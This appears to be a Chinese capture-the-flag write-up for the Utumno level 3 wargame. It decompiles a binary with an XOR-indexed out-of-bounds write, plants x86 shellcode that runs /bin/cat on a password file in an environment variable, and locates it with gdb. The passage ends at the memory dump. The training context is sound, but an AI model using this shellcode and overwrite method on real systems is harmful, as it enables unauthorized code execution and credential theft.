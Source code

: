 程序流程可以看出一共有两个getchar()。第一个getchar()决定你写在哪个位置(与ebp的偏移)，第二个getchar()决定你写的字符是啥。

IDA反编译结果：
```cpp

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  char b[24]; // [esp+0h] [ebp-3Ch]
  char a[24]; // [esp+18h] [ebp-24h]
  int c; // [esp+30h] [ebp-Ch]
  int i; // [esp+34h] [ebp-8h]

  c = 0;
  for ( i = 0; ; ++i )
  {
    c = getchar();
    if ( c == -1 || i > 23 )
      break;
    b[i] = c;
    b[i] ^= 3 * i;
    v3 = b[i];
    a[v3] = getchar();
  }
}
```

`^`表示异或,这里需要一点数学计算。我们要在返回地址上面写shellcode环境变量中的地址(还好只需要写4个字节,而不是整个shellcode)。异或运算有一个性质为：`a^b^b=a`。用这个性质帮助我们计算需要写的那个数。

登录到远程开干。

```bash
utumno3@utumno:/utumno$ export SHELLCODE=$(python -c 'print 200 * "\x90" + "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x61\x78\x63\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"')

```

shellcode之前试过一次，拿不到shell，但发现直接cat密码可以。上面shellcode是直接cat密码版本,用cat的缺点是复用性比较低。下面让我们用gdb找到环境变量地址。

```bash
utumno3@utumno:/utumno$ gdb utumno3 
(gdb) break *main
Breakpoint 1 at 0x80483eb: file utumno3.c, line 20.
(gdb) r
Starting program: /utumno/utumno3 

Breakpoint 1, main (argc=1, argv=0xffffd564) at utumno3.c:20
20	utumno3.c: No such file or directory.

(gdb) x/1200wx $esp

...
0xffffddbc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddcc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdddc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddec:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddfc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde0c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde1c:	0x90909090	0x90909090	0x90909090	0x90909090
---Type <return> to continue, or q <return> to quit---
0xffffde2c:	0x90909090	0xc0319090	0x520bb099	0x61632f68
0xffffde3c:	0x622f6874	0xe3896e69	0x612f6852	0x2f686378
0xffffde4c:	0x89706d74	0xe28952e1	0xe1895351	0x550080cd
0xffffde5c:	0x3d524553	0x6d757475	0x00336f6e	0x3d445750
0xffffde6c:	0x7574752f	0x006f6e6d	0x454e494c	0x31333d53
```